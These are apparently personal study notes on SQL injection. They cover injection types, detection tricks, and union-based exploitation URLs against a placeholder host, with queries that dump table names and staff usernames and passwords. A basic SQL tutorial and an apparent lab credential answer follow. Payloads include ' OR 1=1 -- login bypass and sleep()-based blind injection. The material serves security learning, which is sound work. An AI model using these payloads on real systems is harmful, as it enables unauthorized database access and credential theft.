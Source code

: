 # Information

# SQLi
	- Leads to unauthorized access to database.
	- Can be escalated to RCE,DOS.
	- Successful SQLi can lead to persistent backdoor in organization.

# Methods
	1. Retrieving hidden data: Get extra information from current database.
	2. Union Attacks: Get information from other database.
	3. Examining Database: Get current version of database.
	4. Subverting Application Logic: 

# Types of SQL Injection

	1. In-BOund SQL Injection
		a. Data is reflected in the same page, when we enter any values in parameter.
		b. For eg: In username parameter if we enter any injection, it would be reflected somewhere in the page where username is reflected.

	2. Error based SQL Injection
		a. If there is no reflection of any parameter values on page, lets go for error based sql injection.
		b. If we inject any query into parameters, page will throw us an error.

	3. Union Based SQL Injection\
		a. This injection method, will utilize UNION command which combines one table with another, any prints the output.
		b. How can we detect Union Based SQL Injection
			1. Using ORDER BY clause. If we have a where clause like where ID = 2 or something like that we can use ORDERY BY clause there.
				a. ' ORDER BY 1 ' ORDER BY 2 'ORDER BY 3
				b. Try to order by different columns and check if you recieve any error, we can specify index name ... so no need to specify column name.
			2. Using UNION Clause with NULL Values.
				a. ' UNION SELECT NULL; 'UNION SELECT NULL,NULL; ' UNION SELECT NULL,NULL,NULL;
				b. When number of nulls matches number of columns it might throw us additional row or null point exception error.

	4. Blind SQL Injection
		a. When we don't recieve any output or just some minor tweaks are there in response.
		b. Authentication bypass
			1. Most common Blind sql injection because we don't want to see usernames or passwords.
			2. We just want to pass login forms
			3. Common SQL Injection - ' OR 1=1 --; '--
		c. Boolean based: In this, output would be binary. So if username is not available returns false then try UNION statement which is like OR, if admin123 username returns false, then union that with available columns, at one point it will return true, which means false OR true => true . After finding columns try to manipulate to return databases, columns and tables.
		d. Time Based: In this there is no binary output nor we can verify if our statement is working, so this time we use sleep(x) function or similar, which will delay the response. For eg: admin' UNION select 1,sleep(5);-- If this returns response after a 5second delay that means its working, after this follow similar steps like boolean based, since now we know there are total two columns.

# Phases

# Fingerprinting
	1. Inspecting HTTP Headers in response(PHP, MYSQL VERISON, or any specific tech stack version used)
	2. Getting directories names from ffuf, or any other tool
	3. 

# Detecting SQL Injection

	1. Lets start with Error based SQL Injection by inserting few characters.
		a. '
		b. "
		c. `(Tilda Character)`

	2. Detection based on Integer
		1. When detecting sql injection on integer based parameters, try to use addition,multiplication,subtraction.
		2. For eg: article/?id=2 => article/?id=2-1 Will this fetch 1st article?

	3. Detection based on Strings
		1. If /?user=test is the given parameter, try to inject single quotes after test.
		2. test' see if error is produced, try to use double single quotes, now if error is not produced.
		3. if there are two paramters in url, there might be paranthesis in sql query
			a. For Eg: /?user=test&id=4 , sql query might be where ( user = test & id = 4 )
			b. We can use one or more paranthesis with single quote after test.
			c. Or we can check if we insert some more injection will that return same results ??? 
			d. for eg: test' & '1'='1 => ( user = test' & '1'='1' & id = 4 )
			e. This will give same result ?? Now try this test' & '0'='1 => Error so we have found SQL injection on this parameter. Now comes exploitation phase.

	4. This works for MySQL the methodology is different for other databases, the values 1,2,3,... should be changed to null,null,null, ... for database that need the same type of value in the 2 sides of the UNION keyword. For Oracle, when SELECT is used the keyword FROM needs to be used, the table dual can be used to complete the request: UNION SELECT null,null,null FROM dual

# Exploitation of SQL injection
	1. After inspecting parameters where injection is reflected we need to Detect number of columns for Union based sql injection 
		a. ORDER BY 1 ORDER BY 1,2 ... If at any point this query throws error, that means there are X-1 number of columns.(Where X is the column number which thrown error)
		b. UNION SELECT 1,2,3 ... Can also detect how many columns are there.
	2. Retrieve Information
		a. current_user() => http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4
		b. version() =>  http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4 => Here @@version is used, remember this.
		c. database()  => http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,database(),3,4
		d. When retrieving information, keep number of columns same in UNION statement, insert your version() payload in all columns and check where its reflected in response.

# Process

# Process during In-Bound SQL Injection with blog parameter vulnerable to sql injection

	- select * from article where id = 0 UNION select 1,2,group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema='sqli_one'
	- select * from article where id = 0 UNION select 1,2,group_concat(column_name) from INFORMATION_SCHEMA.columns where column_name='staff_users'
	- select * from article where id = 0 UNION select 1,2,group_concat(usernames, ':', password SEPARATOR '<br>') from staff_users


# SQL Tutorial
	-- SQL is not case sensitive for commands, but case sensitive when creating database names
	CREATE DATABASE testDB;

	-- How to check current Database name
	SELECT DB_NAME(); -- This is query
	db_name() -- This is in terminal ...  Not tried yet.

	-- .bak extension tells the backup db name extension
	BACKUP DATABASE testDB
	to DISK = 'D:/';

	-- Incase of Differential Backup
	BACKUP DATABASE testDB
	to DISK = 'D:/'
	with DIFFERENTIAL;

	## SQL Statements
	select * from users where username == 'admin';
	select * from users where username like '%n';
		- This ensures usernames which ends with n
		- like can have % at start,end or in middle. like %n returns admin,john,etc. like a% returns admin,adi,etc. like %mi% returns admin,amiy,etc.
	select age,customer from users UNION select day,products from shop;
		- UNION will only work if we have same number of columns on both tables.
	insert into tablename (username,password) values (admin,123);
	update users set username='root',password='123' where username='admin';
	delete from users where username='admin';
		- delete from users; will delete all rows from users table.

# SOLutions
	martin => pa$$word